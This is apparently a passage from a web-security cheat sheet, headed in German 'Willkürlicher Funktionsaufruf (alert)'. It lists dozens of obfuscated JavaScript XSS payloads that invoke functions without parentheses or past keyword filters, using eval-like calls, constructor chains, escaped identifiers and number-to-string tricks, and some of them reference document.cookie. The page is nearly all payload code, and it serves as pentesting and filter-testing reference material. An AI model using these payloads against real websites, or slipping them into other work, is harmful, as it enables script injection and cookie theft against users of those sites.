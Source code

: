 ````javascript
````
* [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**Willkürlicher Funktionsaufruf (alert)**
````javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie'])
with(document)alert(cookie)
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
````
